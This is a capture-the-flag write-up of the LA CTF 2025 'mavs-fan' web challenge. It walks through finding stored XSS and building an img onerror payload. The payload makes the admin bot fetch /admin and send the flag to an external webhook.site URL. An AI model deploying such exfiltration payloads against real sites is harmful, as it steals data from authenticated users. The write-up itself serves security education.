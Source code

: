 # mavs-fan

## Background

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...<br>
Hint - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!<br>
Site - mavs-fan.chall.lac.tf<br>
Admin Bot - https://admin-bot.lac.tf/mavs-fan

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge has source code: [mavs-fan.zip](https://github.com/vodanh1903/CTF-Writeups/blob/main/LA-CTF-2025/Web/mavs-fan/mavs-fan.zip)**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-1.png)

In this page, we have an input field and this challenge has an admin bot, so it's could be an client-side vulnerability. But first I will give it some input to see how it processes:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-2.png)

Click `Send Message` and it will redirect us to another page, which contains a post and our input:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-3.png)

Okay, so I will try to exploit XSS by giving it a simple payload for testing XSS `<script>alert(1)</script>`, click `Send Message`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-4.png)

Hmm, it seems like my payload doesn't work. I will inspect this page to see if it has filtered my payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-5.png)

Oh, my payload is still on the page and it seems not to be sanitized. So the payload may be successfully executed but the backend somehow handles it so it won't show to the client. Then I will test a payload with `img` tag to see if it's executed before looking through the source code. My payload: `<img src=x onerror="alert(1)"/>`.<br>

Explain about the payload:<br>
- 1. We will use the `img` tag with `src` attribute and `onerror` attribute. 
- 2. The `src=x` will cause an error because the `x` doesn't exist, and when an error appears, the `onerror="alert(1)"` get executed.<br>

The result when I send the payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-6.png)

The payload works! Now, I need to look for the source code to see where and how I can read the flag.<br>
> Reading the source code, Idk why the `script` tag can't be executed cause I see no filter apllied on our input, maybe the web page has WAF which blocks the `script` tag or am I missing something???
In `app.js`, we can see that the flag is located at the endpoint `/admin`:

```js
[...]
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
[...]
```

To read the flag, we need the cookie of the admin and we have the admin bot!.

## Exploitation

 So, the idea is:<br>
- 1. We let the admin bot read the content of endpoint `/admin`
- 2. We will make the bot send the content to our domain ( I will use [webhooks.site](https://webhook.site/) ), so we can read the flag!<br>

This is my payload for this challenge: `<img src="x" onerror="fetch('https://mavs-fan.chall.lac.tf/admin') .then(res => res.text()) .then(data => { fetch('https://webhook.site/273fb9ed-bb43-424f-b0b9-ceed3f8c3d22/?d='+encodeURIComponent(data)); });" />`.<br>

Explain about the payload:<br>
- 1. First, we will use `img` tag to execute XSS which I've explained above.
- 2. When the `onerror` is loaded, we will make the bot read the content of the endpoint `/admin` through [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API).
- 3. Then, we will use [`then()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then) to handle the data, the content of the endpoint `/admin` will be assigned to `res` and then it can be read through `res.text()`.
- 4. Next, we will use `then()` again and assign `res.text()` to `data` and make the bot send the `data` to our webhook through `d` parameter with `fetch()`. (Remember to use [`encodeURIComponent()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) if you want to dynamically assemble string values into a URL)<br>

Back to the exploitation, we will save this payload to a post like we did before:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-7.png)

Next, we will send the url to our post to the admin bot, so it will read the post and then the payload will be executed:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-8.png)

Click `Submit` and we should receive the flag on our webhook:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-9.png)

- **Flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`**

## Conclusion

What we've learned:

1. Cross-site Scripting (XSS)